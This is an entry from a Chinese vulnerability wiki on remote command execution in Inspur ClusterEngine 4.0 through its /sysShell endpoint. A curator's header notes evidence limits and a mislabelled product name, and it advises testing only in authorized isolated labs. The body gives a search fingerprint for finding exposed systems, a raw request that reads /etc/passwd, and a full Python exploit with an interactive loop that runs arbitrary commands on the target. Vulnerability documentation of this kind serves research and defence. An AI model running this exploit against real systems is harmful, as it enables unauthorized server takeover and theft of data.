


# 浪潮ClusterEngine4.0 sysShell命令执行

## 条目说明

- 对象与具体问题：浪潮ClusterEngine4.0；sysShell命令执行
- 版本、配置及部署条件：4.0；需存在的集群node
- 认证与权限前提：lang Cookie非登录，鉴权另缺
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 已按原文中的具体接口、源码或上下文直接更正产品、根因或修复说明；未知版本和未经证明的影响仍明确保留为待核实。
- 是集群管理不是ERP
- 脚本Version误写SonicWall SSL-VPN污染产品归属
- node cu01必须有效已解释，任意用户登录只作前置链接但缺出处
- 命令未表单编码、root字符串判据宽；缺修复build

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

浪潮ClusterEngineV4.0 存在远程命令执行，攻击者通过发送特殊的请求可以获取服务器权限

### 漏洞影响

```
浪潮ClusterEngineV4.0
```

### 网络测绘

```
title="TSCEV4.0"
```

### 漏洞复现


登录页面如下


发送请求包


```http
POST /sysShell HTTP/1.1
Host: xxx.xxx.xxx.xxx
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: lang=cn
Cache-Control: max-age=0
Content-Length: 42

op=doPlease&node=cu01&command=cat /etc/passwd
```

> 请求长度说明：原资料 Content-Length 为 42；保留原始标头；其数值未据实际请求体重新计算或验证。





- ✅注意参数 node 中的 cu01 需要为shell集群中的存在主机





这里可以配合任意用户登录漏洞查看主机名


### 漏洞POC

如过出现 Name or service not

请通过上述的方法查看 shell集群主机的名称（脚本默认 cu01）


```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: SonicWall SSL-VPN                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/sysShell"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Cookie": "lang=cn"
    }
    data = "op=doPlease&node=cu01&command=cat /etc/passwd"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/sysShell \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/sysShell"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Cookie": "lang=cn"
    }
    data = "op=doPlease&node=cu01&command={}".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)
```


##


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
